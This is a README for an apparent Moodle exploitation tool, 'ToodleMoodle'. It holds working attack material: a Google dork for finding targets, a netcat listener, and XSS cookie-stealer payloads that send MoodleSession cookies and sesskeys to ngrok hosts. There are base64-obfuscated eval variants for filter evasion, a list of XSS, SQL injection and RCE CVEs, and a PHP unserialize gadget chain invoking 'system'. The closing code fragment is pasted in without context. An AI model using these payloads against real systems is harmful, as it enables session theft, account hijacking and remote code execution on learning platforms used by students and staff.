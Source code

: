 # ToodleMoodle

![ToodleMoodle](./images/ReadMeMoodleImage.png?raw=true)

## Installation

TODO: Write installation instructions here

## Usage

Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:

``` html
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>
<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>
```

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()

The vulnerabilities we use are:

* Dashboard XSS CVE-2019-3847
* Assignment XSS CVE-2017-2578
* SQL Injection / Privilege escalation CVE-2017-2641
* RCE (must be teacher) CVE-2018-1133
* RCE (attacker needs permissions to create a quiz or at least be able to import questions)
CVE-2018-14630

https://packetstormsecurity.com/files/149426/Moodle-3.x-PHP-Unserialize-Remote-Code-Execution.html CVE-2018-14630

Features:

* Scan: the tool can detect version and suggest supported exploits
* Exploit RCE 2018-1133 and CVE-2018-14630
* Exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
* Add XSS to account dashboard, generate clickjacker, using CVE-2019-3847 to hijack
session
* Add XSS to calendar, generate link for victim to click and steal session

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```
Use the  --release flag for an optimized production build.

### Docker image setup
```
bin/moodle-docker-compose up
```

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer

// Legacy format containing PHP serialisation.
            https://github.com/moodle/moodle/archive/v3.1.13.zip
            foreach ($data['#']['answer'] as $answerxml) {
                $ans = $format->import_answer($answerxml);
                $options = unserialize(stripslashes($ans->feedback['text']));
                // $payload = 
                // "O:15:\"\\core\\lock\\lock\":3:{s:6:\"\0*\0key\";O:23:\"\\core_availability\\tree\":1:{s:11:\"\0*\0children\";O:24:\"\\core\\dml\\recordset_walk\":2:{s:11:\"\0*\0callback\";s:6:\"system\";s:12:\"\0*\0recordset\";O:25:\"question_attempt_iterator\":2:{s:7:\"\0*\0quba\";O:26:\"question_usage_by_activity\":1:{s:19:\"\0*\0questionattempts\";a:1:{s:4:\"1337\";s:13:\"echo aawhoami\";}}s:8:\"\0*\0slots\";a:1:{i:0;i:1337;}}}}s:9:\"draggroup\";s:1:\"1\";s:8:\"infinite\";i:1;}";
                // $options = unserialize($payload);//unserialize(stripslashes($ans->feedback['text']));
                // echo $payload;
                
                // var_dump($options);
O:15:"\core\lock\lock":3:{s:6:"�*�key";O:23:"\core_availability\tree":1:{s:11:"�*�children";O:24:"\core\dml\recordset_walk":2:{s:11:"�*�callback";s:6:"system";s:12:"�*�recordset";O:25:"question_attempt_iterator":2:{s:7:"�*�quba";O:26:"question_usage_by_activity":1:{s:19:"�*�questionattempts";a:1:{s:4:"1337";s:13:"echo aawhoami";}}s:8:"�*�slots";a:1:{i:0;i:1337;}}}}s:9:"draggroup";s:1:"1";s:8:"infinite";i:1;}
